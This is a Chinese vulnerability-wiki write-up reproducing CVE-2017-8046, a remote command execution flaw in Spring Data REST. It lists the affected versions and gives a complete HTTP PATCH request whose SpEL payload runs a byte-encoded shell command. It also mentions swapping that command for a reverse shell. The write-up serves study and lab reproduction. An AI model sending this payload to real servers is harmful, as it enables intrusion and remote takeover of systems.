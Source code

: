 （CVE-2017-8046）Spring Data Rest 远程命令执行漏洞
==================================================

一、漏洞简介
------------

Spring Data REST是一个构建在Spring
Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST
API的Patch方法中（实现RFC6902），path的值被传入setValue，导致执行了SpEL表达式，触发远程命令执行漏洞。

二、漏洞影响
------------

PivotalSpringDataREST2.5.12之前的版本，2.6.7之前的版本，3.0RC3之前的版本

SpringBoot2.0.0M4之前版本

SpringDataKay-RC3之前的版本

三、复现过程
------------

访问`http://www.0-sec.org:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

    PATCH /customers/1 HTTP/1.1
    Host: www.0-sec.org:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json-patch+json
    Content-Length: 202

    [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`。然后进入容器`docker-compose exec spring bash`看看：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-8046)SpringDataRest远程命令执行漏洞/media/rId24.png)

可见，success成功创建。

将bytecode改成反弹shell的命令（注意：[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)），成功弹回：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-8046)SpringDataRest远程命令执行漏洞/media/rId26.png)

参考链接
--------

> https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-8046
